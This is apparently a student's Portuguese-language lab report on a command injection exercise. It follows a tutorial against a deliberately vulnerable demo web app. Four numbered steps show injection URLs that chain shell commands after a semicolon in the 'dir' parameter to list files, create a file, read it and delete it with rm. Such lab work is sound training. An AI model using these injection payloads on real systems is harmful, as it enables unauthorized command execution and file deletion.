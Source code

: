 # Command Injection
## Relatório da Prática

Para realizar a prática, segui as questões propostas no [tutorial](https://github.com/jordaos/Command-Injection-Tutorial).

Não senti dificuldades para realizar a prática. O tutorial estava muito explicativo.

Na prática foi utilizada a [aplicação online](http://commandinjection.herokuapp.com/) disponibilizada no tutorial para a realização dos ataques.

1. Listar arquivos do diretório.

    Para listar os arquivos do diretório onde está a página inicial dos site foi utilizado o comando `ls`. O comando completo ficou assim: 
    > `http://commandinjection.herokuapp.com/?dir=;ls`
    
    ![1](1.png)

2. Criar arquivo
    Foi criado um arquivo dentro da pasta '/folder' através do seguinte comando:
    > `http://commandinjection.herokuapp.com/?dir=folder; echo "Prática - Samuel Alves" > SamuelAlves.txt`

    ![2](2.png)

3. Listar conteúdo do arquivo
    Para listar o conteúdo do documento criado, foi utilizado o comando:
    > `http://commandinjection.herokuapp.com/?dir=files; cat SamuelAlves.txt`

    ![3](3.png)

4. Apagar arquivo
    Para apagar o arquivo criado, foi utilizado o comando:
    > `http://commandinjection.herokuapp.com/?dir=files; rm SamuelAlves.txt`
    ![4](4.png)